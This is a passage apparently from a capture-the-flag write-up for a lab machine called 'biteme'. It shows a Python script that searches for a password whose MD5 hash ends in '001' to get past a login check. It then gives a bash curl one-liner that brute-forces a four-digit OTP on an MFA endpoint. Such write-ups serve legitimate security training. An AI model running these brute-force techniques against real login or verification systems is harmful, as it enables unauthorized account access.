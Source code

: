 genpass.py

```python
#!/usr/bin/env python3

from hashlib import md5
from string import ascii_lowercase
import itertools

counter = 1
while True:
    combinations = itertools.combinations_with_replacement(
        ascii_lowercase, r=counter)

    for i in combinations:
        string = "".join(i)

        m = md5(string.encode('utf-8'))
        the_hash = m.hexdigest()
        if (the_hash.endswith('001')):
            print("{}: {}".format(string, the_hash))
            exit()
    counter += 1
```

![](/assets/images/biteme/Pasted image 20220317220610.png)

So here's is a python script for generating a random hash which ends with **001**, as required for bypassing the login form. By now we already have the username and now we also have the password, so let's check if we login or not.

#### Bypassing OTP Verification

![](/assets/images/biteme/Pasted image 20220317221025.png)
Yay!, we successfully bypassed the login form, but we have another thing to bypass, someking of **OTP** is required to bypass the form.

By checking the source code of the **/console/mfa.php** endpoint
![](/assets/images/biteme/Pasted image 20220317221239.png)
we got another javascript deobfuscated code, which is readable.

1. It logs the message in the console

So from the image above we know that, we can simply bruteforce the **OTP** to bypass the form. Let's do it.
![](/assets/images/biteme/Pasted image 20220317230647.png)

```bash
for i in {0000..9999}; do echo $i; curl -s -X POST --data "code=$i" 10.10.95.146/console/mfa.php --cookie "user=jason_test_account; pwd=xxxxx" | wc -l | grep -v "23"; if [ $? -eq 0 ]; then echo FOUND IT!; break; fi; done
```

So here's the oneliner using which, we can apparently bypass the **OTP** verification.
